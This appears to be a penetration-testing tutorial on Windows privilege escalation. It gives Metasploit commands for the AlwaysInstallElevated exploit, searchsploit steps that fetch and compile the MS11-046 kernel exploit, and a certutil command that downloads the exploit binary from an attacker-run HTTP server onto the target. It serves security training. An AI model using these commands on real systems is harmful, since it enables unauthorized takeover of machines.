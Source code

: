 ```yaml
---
legal-banner: true
---
```


### **Exploiting with Metasploit**

1.  We discovered that the target is potentially vulnerable to the following kernel vulnerabilities:  
    
    ![](../../../img/Windows-Environment/15.png)

    **Note:** `exploit/windows/local/always_install_elevated` enables privilege escalation by abusing the AlwaysInstallElevated policy on Windows systems.
    
2.  For this exploit, set the `LHOST`, `LPORT`, and `SESSION` fields.  
    - `SESSION` should be the active Meterpreter session (e.g., 1).  
    - `LPORT` must be different from the port used in the initial session (1338 in this case).  
    
    ```
    use exploit/windows/local/always_install_elevated
    set SESSION 1
    set LHOST [IP-ADDRESS]
    set LPORT [PORT]
    run
    ```
    
    ![](../../../img/Windows-Environment/16.png)
    
3.  Run the exploit to obtain a SYSTEM shell.  
    
    ![](../../../img/Windows-Environment/17.png)
    

### **Exploiting with Windows Exploit Suggester**

1.  Using Windows Exploit Suggester, we identified that the target is potentially vulnerable to several kernel exploits:  
    `python3 wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only`  
    
    ![](../../../img/Windows-Environment/18.png)
    
2.  Download and compile an exploit using `searchsploit`:  
    
    ```
    searchsploit 40564
    searchsploit -m windows_x86/local/40564.c
    x86_64-w64-mingw32-gcc 40564.c -o ms11-046.exe -lws2_32
    ```
    
    ![](../../../img/Windows-Environment/19.png)
    
3.  Alternatively, search for a pre-compiled version of the exploit.  
    
    ![](../../../img/Windows-Environment/20.png)

    **Note:** Be cautious with pre-compiled executables as they may contain backdoors. Always use trusted sources.
    
4.  Example: MS11-046 pre-compiled exploit.  
    
    ![](../../../img/Windows-Environment/21.png)
    
5.  To download, click the **Raw** link for the executable.  
    
    ![](../../../img/Windows-Environment/22.png)
    
6.  Transfer the exploit to the target machine (see File Transfer section for techniques). Example using a Python HTTP server:  
    ```
    python3 -m http.server 8000
    ```
    
    ![](../../../img/Windows-Environment/23.png)
    
7.  Execute the exploit on the target and confirm successful privilege escalation. Example using `certutil`:  
    ```
    certutil -urlcache -f http://[IP-ADDRESS]:8000/ms11-046.exe ms11-046.exe
    ```
    
    ![](../../../img/Windows-Environment/24.png)